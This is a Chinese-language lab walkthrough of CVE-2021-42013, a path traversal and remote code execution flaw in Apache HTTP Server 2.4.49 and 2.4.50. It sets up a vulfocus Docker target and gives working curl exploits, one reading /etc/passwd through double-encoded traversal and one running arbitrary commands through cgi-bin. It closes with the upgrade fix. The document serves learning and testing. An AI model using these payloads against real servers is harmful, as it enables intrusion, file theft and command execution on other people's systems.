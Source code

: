 # 前言
## 漏洞原理
该漏洞是由于在Apache HTTP Server 2.4.50版本中对CVE-2021-41773修复不够完善，攻击者可利用该漏洞绕过修复补丁，并利用目录穿越攻击访问服务器中一些文件，进而造成敏感信息泄露。若httpd中开启CGI功能，攻击者可以构造恶意请求，造成远程代码执行。

## 影响版本
Apache HTTP Server 2.4.50
Apache HTTP Server 2.4.49

## 漏洞信息
漏洞名称	路径穿越与命令执行漏洞
漏洞编号	CVE-2021-42013
危害等级	超危
CVSS评分	9.8
漏洞类型	路径漏洞
查询地址：http://www.cnnvd.org.cn/web/xxk/ldxqById.tag?CNNVD=CNNVD-202110-413

# 环境搭建
docker pull vulfocus/apache-cve_2021_42013:latest #拉取靶场
docker images #查看镜像
docker run -d -P vulfocus/apache-cve_2021_42013 #启动镜像
docker ps #查看映射的端口
![1](https://img-blog.csdnimg.cn/3ad305ddbd5a4dc3b1a9bdef081a152e.png)
![2](https://img-blog.csdnimg.cn/c5839d17c6e343859bf699f1df5a03ec.png)
![3](https://img-blog.csdnimg.cn/030557360ea04a56a61e852c3b737192.png)
![4](https://img-blog.csdnimg.cn/49293860d6c44251a794f60387287156.png)
![5](https://img-blog.csdnimg.cn/ea23feb27c7c48339f7344c409d4f21e.png)
# 漏洞利用
在kali上执行EXP
```php
curl -v --path-as-is http://ip:port/icons/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/etc/passwd
```
![6](https://img-blog.csdnimg.cn/d729ddf2dfbf4f1e8520f76f03df501e.png)
在服务器上启用 mods cgi 或 cgid 后，此路径遍历漏洞将允许任意命令执行：

```php
curl -s --path-as-is -d "echo Content-Type: text/plain; echo; $3" "vulfocus.fofa.so:$1/cgi-bin/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/$2"
```
$1:开放端口 $2:路径 $3:命令

在服务端开启了gi或cgid这两个mod的情况下，这个路径穿越漏洞将可以执行任意cg命令：![7](https://img-blog.csdnimg.cn/8492fea56d4e446cbe0388585979b21a.png)
# 修复方法
升级到Apache HTTP Server安全版本。